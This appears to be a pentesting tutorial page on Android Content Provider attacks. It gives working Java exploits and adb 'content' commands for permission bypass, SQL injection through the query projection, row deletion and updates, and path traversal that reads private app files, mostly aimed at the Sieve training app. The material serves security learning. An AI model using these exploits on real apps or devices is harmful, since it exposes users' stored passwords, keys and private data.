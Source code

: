# Content Provider Hacking

**Overview**

Content Providers manage access to a structured set of data in Android applications. They encapsulate data and provide mechanisms for defining data security. They can be targeted for various vulnerabilities such as SQL Injection and Path-Traversal attacks.

**Key Areas of Focus**

1. **Exported Content Providers**
2. **SQL Injection Vulnerabilities**
3. **Path-Traversal Vulnerabilities**

***

### 1. Exported Content Providers

**What to Look For:**

* **Exported Providers**: Check if the Content Provider is exported in the `AndroidManifest.xml` file. An exported provider can be accessed by other applications.
* **Permissions**: Examine if the Content Provider is protected by permissions. If the `protectionLevel` is not set to `signature`, it might be circumvented.

```xml
<provider
    android:name="com.example.provider"
    android:authorities="com.example.provider"
    android:exported="true"
    android:permission="com.example.provider.READ_WRITE" />
```

<figure><img src="../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

#### **Code Exploit**&#x20;

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Passwords");
Cursor queryCursor = getContentResolver().query(uri,null,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

**AndroidManifest.xml** in all exploits should have those lines

```xml
<queries>
    <package android:name="com.apphacking.musicplayer"/>
</queries>
```

#### Case 1: Permission Bypass

Bypassing the custom user permission, because of the missing regex regarding to the PATH

Simply appending `/////` at the end of our content URI will bypass it.

**Code Exploit**

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Keys/////");
Cursor queryCursor = getContentResolver().query(uri,null,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

### 2. SQL Injection Vulnerabilities

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Steps to Identify:**

* **Check Query Methods**: Look at the `query` method to see if user inputs are properly sanitized.
* **Identify Tables**: Locate the tables used within the Content Provider by searching for `content://` URIs in the code.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Example Code to Identify SQL Injection Points:**

```java
String selection = "SELECT * FROM users WHERE username = ?";
Cursor cursor = db.rawQuery(selection, new String[]{username});
```

Now we need to identify the tables in the Java code. We can look for the keyword “`content://`“.

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### **Case 1**

* We need to query the Passwords table to insert our own SQL statement
* SQL statement will be inserted via the projection
* SQL syntax is sth like: `SELECT * FROM Passwords WHERE ....`
* projection --> `SELECT '* FROM Key--;' (ignored .... FROM Passwords WHERE)`

**Exploit**

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Passwords");

String[] projection = new String[] {"* FROM KEY--;"};
Cursor queryCursor = getContentResolver().query(uri,projection,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

#### Case 2

* Granting the custom permissions of the sieve application to query the Key table.
* consider:
* Define them in the Manifest

```xml
<uses-permission android:label="@string/perm_descr" android:name="com.mwr.example.sieve.READ_KEYS" android:protectionLevel="dangerous"/>
<uses-permission android:label="@string/perm_descr" android:name="com.mwr.example.sieve.WRITE_KEYS" android:protectionLevel="dangerous"/>
```

* We need to ask for them during runtime.&#x20;

```java
String[] permission = new String[] {"com.mwr.example.sieve.READ_KEYS"};
ActivityCompat.requestPermissions(this, permission,9001);

Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Keys");

String[] projection = new String[] {"*"};
Cursor queryCursor = getContentResolver().query(uri,projection,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

**Example SQL Injection Attack:**

*   **Extract All Entries**:

    ```bash
    $ content query --uri content://com.example.provider/users --projection "* FROM users--"
    ```
*   **Inserting Data**:

    ```bash
    $ content insert --uri content://com.example.provider/users --bind name:s:admin
    ```
*   **Updating Data**:

    ```bash
    $ content update --uri content://com.example.provider/users --bind name:s:hacker --where "name='admin'"
    ```
*   **Deleting Data**:

    ```bash
    $ content delete --uri content://com.example.provider/users --where "name='admin'"
    ```

### 3. Path-Traversal Vulnerabilities

**Steps to Identify:**

* **Check Exported Providers**: Again, ensure the Content Provider is exported.
* **ParcelFileDescriptor**: Look for `ParcelFileDescriptor openFile` method and ensure the URI input is sanitized.

**Example Path-Traversal Attack:**

*   **Reading Arbitrary Files**:

    ```bash
    $ content read --uri content://com.example.provider/../../../../../../etc/hosts
    ```

#### Code Exploit

```java
public class MainActivity extends AppCompatActivity {

    InputStream inputStream;
    TextView textView;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        textView = (TextView) findViewById(R.id.textView);

        Uri uri = Uri.parse("content://com.apphacking.musicplayer/../../../../../../../data/data/com.apphacking.musicplayer/files/mySecretFile");

        try {
            inputStream = getContentResolver().openInputStream(uri);
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        }

        InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
        BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
        String fileInput = "";

        try {

            while (bufferedReader.ready()) {
                fileInput += bufferedReader.readLine();
                fileInput += "\n";
            }

        } catch (IOException e) {
                e.printStackTrace();
            }

        textView.setText("Accessing mySecretFile: \n" + fileInput);

    }
}
```

#### Summary

When pentesting Content Providers in Android applications, focus on:

* Ensuring Content Providers are not improperly exported.
* Checking for SQL Injection vulnerabilities by examining how inputs are handled in query methods.
* Identifying and exploiting Path-Traversal vulnerabilities by verifying how file URIs are processed.

By thoroughly investigating these areas, you can identify and exploit significant vulnerabilities in Android applications' Content Providers.
